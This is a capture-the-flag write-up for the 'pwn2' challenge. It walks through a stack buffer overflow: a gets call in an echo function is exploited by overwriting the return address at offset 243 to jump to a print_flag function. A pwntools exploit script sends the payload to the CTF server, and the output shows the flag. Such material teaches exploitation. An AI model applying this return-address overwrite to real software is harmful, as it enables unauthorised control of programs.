




# pwn2 #



We downloaded the binary pwn2 ...

```
sha256sum pwn2 
c3b921705c4a05c12954bce65bb8070d52d24d56f163bef04803e51864fd2f39  pwn2
```

## Running the binary ##
Running the binary gave us a general idea of what it does ...
```
./pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
We did not get anything useful from that, we ran a second test with a larger buffer ...
```
./pwn2
I just love repeating what other people say!
I bet I can repeat anything you tell me!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
Hmmm, somehow we corrupted something, we fired radare2 to check the binary ...

## Binary analysis ##

Listing the functions in the binary revealed a function called print_flag at address 0x0804854b,
however, there was no calls to this function from the main execution flow ...

We used gdb with pwndbg to debug the pwn2 binary, we needed to inspect the stack during the crash 
to find a way to exploit the binary, we set a breakpoint after the call to gets (where we input our
data) ...

```
pwndbg> disass echo
Dump of assembler code for function echo:
   0x080485b2 <+0>:	push   ebp
   0x080485b3 <+1>:	mov    ebp,esp
   0x080485b5 <+3>:	sub    esp,0xf8
   0x080485bb <+9>:	mov    eax,ds:0x804a030
   0x080485c0 <+14>:	push   0x0
   0x080485c2 <+16>:	push   0x0
   0x080485c4 <+18>:	push   0x2
   0x080485c6 <+20>:	push   eax
   0x080485c7 <+21>:	call   0x8048410 <setvbuf@plt>
   0x080485cc <+26>:	add    esp,0x10
   0x080485cf <+29>:	sub    esp,0xc
   0x080485d2 <+32>:	lea    eax,[ebp-0xef]
   0x080485d8 <+38>:	push   eax
   0x080485d9 <+39>:	call   0x80483d0 <gets@plt>
   0x080485de <+44>:	add    esp,0x10
   0x080485e1 <+47>:	sub    esp,0xc
   0x080485e4 <+50>:	lea    eax,[ebp-0xef]
   0x080485ea <+56>:	push   eax
   0x080485eb <+57>:	call   0x80483f0 <puts@plt>
   0x080485f0 <+62>:	add    esp,0x10
   0x080485f3 <+65>:	nop
   0x080485f4 <+66>:	leave  
   0x080485f5 <+67>:	ret    
End of assembler dump.
pwndbg> bp 0x080485de
Breakpoint 1 at 0x80485de
```

We ran the binary but this time we used a pattern with a length of 256 chars as our input ...


As we can see we were able to overwrite some return addresses in the stack, we will find the
offset to the first return address overwritten ...
```
>>> cyclic_find(0x61616c63)
243
```

At this point since we are going to gain control of EIP after the return of the current function,
we are going to change the return address at offset 243 with the value 0x0804854b (that is the
address for the print_flag function).

We ran the binary again with the new change, and as shown below we were able to set the address of
the print_flag function as a return address in the stack ...



We set a breakpoint at the start of the print_flag function and continued the execution ...



As we can see we were able to jump back to the print_flag function, we prepared a script to test
our buffer with the CTF server ...

```python
from pwn import *

string = cyclic(243) + '\x4b\x85\x04\x08'

c = remote ('pwn.ctf.tamu.edu', 4322)

print c.recvline()
print c.recvline()
c.sendline(string)
print c.recvline()
print c.recvline()
print c.recvline()
```

## Getting the flag ##
After running our script we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4322: Done
I just love repeating what other people say!

I bet I can repeat anything you tell me!

aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaK\x85\x0

This function has been deprecated

gigem{3ch035_0f_7h3_p4s7}

[*] Closed connection to pwn.ctf.tamu.edu port 4322
```
